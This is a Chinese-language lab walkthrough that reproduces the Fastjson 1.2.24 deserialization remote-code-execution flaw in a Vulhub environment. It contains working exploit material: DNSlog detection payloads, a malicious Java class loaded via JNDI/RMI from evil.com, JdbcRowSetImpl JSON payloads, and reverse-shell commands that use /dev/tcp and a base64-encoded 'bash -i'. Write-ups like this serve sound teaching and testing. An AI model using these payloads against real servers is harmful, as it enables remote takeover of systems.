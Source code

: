 # Fastjson 1.2.24 反序列化导致任意命令执行漏洞

## 漏洞描述

Fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

参考资料：

- https://www.freebuf.com/vuls/208339.html
- [http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/](http://xxlegend.com/2017/04/29/title- fastjson 远程反序列化poc的构造和分析/)

## 环境搭建

Vulhub运行测试环境：

```
docker-compose up -d
```

环境运行后，访问`http://your-ip:8090`即可看到JSON格式的输出。

![image-20220223111249998](./images/202202231112044.png)

我们向这个地址POST一个JSON对象，即可更新服务端的信息：

```
curl http://your-ip:8090/ -H "Content-Type: application/json" --data '{"name":"hello", "age":20}'
```

## 如何判断一个站点是否存在Fastjson？

- 参考文章：https://zeo.cool/2020/07/04/%E7%BA%A2%E9%98%9F%E6%AD%A6%E5%99%A8%E5%BA%93!fastjson%E5%B0%8F%E4%BA%8E1.2.68%E5%85%A8%E6%BC%8F%E6%B4%9ERCE%E5%88%A9%E7%94%A8exp/

**方式1 响应时间**

正常数据响应时间（29毫秒）：

![image-20220223141118979](./images/202202231411062.png)

存在Fastjson时，16进制数据响应时间明显变长（396毫秒）：

![image-20220223140820884](./images/202202231408972.png)

**方式2 DNSlog**

最新版本1.2.67依然可以通过dnslog判断后端是否使用fastjson

```
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
```

## 漏洞复现

因为目标环境是Java 8u102，没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以使用`com.sun.rowset.JdbcRowSetImpl`的利用链，借助JNDI注入来执行命令。

首先编译并上传命令执行代码，如`http://evil.com/TouchFile.class`：

执行`javac TouchFile.java`，生成`TouchFile.class`。

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

通过python搭建一个临时的web服务，该服务是为了接收LDAP服务重定向请求，需要在payload的目录下开启此web服务，这样才可以访问到payload文件。此处payload文件即`TouchFile.class`。

```
python -m http.server 8888
```

然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类`TouchFile.class`。

```
$ git clone https://github.com/mbechler/marshalsec.git
$ mvn clean package -DskipTests
$ cp ./target/marshalsec-0.0.3-SNAPSHOT-all.jar /home/kali/vulnerability/vulhub/fastjson/1.2.24-rce
```

```shell
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com:8888/#TouchFile" 9999
```

![image-20220223122416137](./images/202202231224191.png)

向靶场服务器发送Payload，带上RMI的地址，注意Content-Type应该是`application/json`：

```
POST / HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 160

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/TouchFile",
        "autoCommit":true
    }
}
```

![image-20220223122432463](./images/202202231224531.png)

可见，命令`touch /tmp/success`已成功执行：

![image-20220223122451321](./images/202202231224373.png)

### 反弹shell

同样，执行`javac TouchFile.java`，生成`TouchFile.class`。

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.174.128/9999;cat <&5 | while read line; do $line 2>&5 >&5; done"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

也可以使用bash base64的方式：

```java
String[] commands = {"bash", "-c","{echo, YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDMuMTQ3LjEyNy85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}"}
```

启动一个RMI服务器，监听8888端口，并制定加载远程类`TouchFile.class`：

```
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 8888
```

发送POST请求包：

```
POST / HTTP/1.1
Host: 192.168.174.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 165

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.174.128:8888/TouchFile",
        "autoCommit":true
    }
}
```

监听9999端口，接收反弹shell：

![image-20220223125747062](./images/202202231257183.png)
